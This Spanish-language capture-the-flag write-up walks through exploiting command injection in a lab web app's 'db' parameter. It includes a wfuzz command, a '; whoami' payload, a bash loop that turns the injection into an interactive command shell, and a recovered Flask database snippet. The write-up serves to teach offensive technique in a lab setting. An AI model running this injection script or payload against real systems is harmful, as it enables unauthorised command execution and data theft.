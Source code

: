 ----------
#### Command Injection
Si visitamos la pagina Web que esta protegida por SSL, nos encontraremos con que no podemos visualiazarla debido a que no dis ponemos de un certificado. 
Por otro lado, en el puerto 80 tenemos un tipo de **juego** que nos indica que selecionemos una base de datos, al hacerlo nos redirige a una pagina donde se nos muestra nuestra "Fortuna".
Esta petición la pasaremos por **BurpSuite** para intentar jugar con ella un poco, al hacerlo, nos daremos cuenta de que no se puede colocar cualquier cosa, si no que especificamente debe contener el nombre de alguna de las bases de datos que se nos indican ahi.
Probaremos tirar de **Wfuzz** para intentar descubrir si existen algunos caracteres que nos esten devolviando una respuesta diferente:
```
# wfuzz -c --hc=404 -w /usr/share/SecLists/Fuzzing/special-chars.txt -d "db=FUZZ" http://10.10.10.10/
```

La respuesta nos indican los tipicos caracteres que vemos en comandos a nivel de sistema:
![[Pasted image 20230727122333.png]]

Probablemente, si colocamos un `; whoami` nos interepretara el comando y nos lo mostrara por pantalla:
![[Pasted image 20230727122402.png]]

Al intentar entablarnos una reverse shell, nos percataremos de que no es posible. Ni siquiera podremos tirarnos un `ping` ni un `curl`. Podemos estar trabajando desde el **Repeater** de **BurpSuite** o para mayor comodidad crearnos un script en **bash**:
```bash
#!/bin/bash

# Ctrl + C
function ctrl_c(){
	echo -n "\n[!] Saliendo..."
	exit 1
}
trap ctrl_c INT

while true; do

	echo -n "[#] > " && read -r  myCommand
	echo; curl -s -X POST "http://10.10.10.10/select" --data "db=; echo sexcott; $myCommand" | awk '/sexcott/,/<\/pre>/' | grep -vE "sexcott|</pre>"
done
```

Leyendo archivos del sistema, llegamos a dar con uno interesante el cual parece ser una conexión a una base de datos:
```python
from flask import Flask, request, render_template
import psycopg2

app = Flask(__name__)

def db_write(key_str):
  result = True
  params = [ request.remote_addr, key_str, key_str ]
  sql_insert = "INSERT INTO authorized_keys (uid, creator, key) VALUES ('nfsuser', %s, %s) ON CONFLICT ON CONSTRAINT authorized_keys_pkey DO UPDATE SET key=%s;"
  try:
    conn = psycopg2.connect("host=localhost dbname=authpf user=appsrv")
    curs = conn.cursor()
    curs.execute(sql_insert, params)
  except:
    result = False

  conn.commit()
```